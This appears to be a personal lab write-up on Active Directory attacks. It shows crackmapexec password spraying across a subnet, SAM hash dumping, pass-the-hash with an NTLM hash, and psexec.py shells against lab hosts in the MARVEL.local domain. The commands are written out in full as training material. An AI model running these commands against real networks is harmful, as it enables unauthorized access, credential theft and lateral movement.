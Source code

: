 1. Passing the plaintext password with crackmapexec:
![[AD_post1.png]]

2. Dumping hashes using metasploit:
![[AD_post2.png]]

3. Passing the hash using crackmapexec:
![[AD_post3.png]]

**Installing crackmapexec**
```python
sudo apt install crackmapexec
```

## Practical implementation of pass the password attack in lab 
**Scenario** - Now, we are trying to dump sam database as well as try to get a shell in fcastle machine

1. Help menu of crackmapexec:
```python
crackmapexec --help
```

2. Spraying password and try to see if we can get login into some machines
command - 
```python
crackmapexec smb 192.168.1.0/24 -u fcastle -d MARVEL.local -p Password1
```

![[AD_post4.png]]

3. Dumping sam database hashes
command - 
```python
crackmapexec smb 192.168.1.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```
![[AD_post5.png]]

4. Getting a shell in 192.168.1.16 using psexec.py
command - 
```python
psexec.py marvel/fcastle:Password1@192.168.1.16
```

![[AD_post6.png]]

## Practical implementation of pass the hash attack in lab 
1. First we grab hashes as well as username from hashes file(we get this hashes from secretsdump.py)
![[AD_post8.png]]

2. Now, we pass the hash around the defined network using crackmapexec.
command - 
```python
crackmapexec smb 192.168.1.0/24 -u "Peter Parker" -H aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0 --local-auth
```

![[AD_post9.png]]

3. Now, we can use psexec to get a shell in this machine.

## Pass the password or hash:
![[AD_post10.png]]

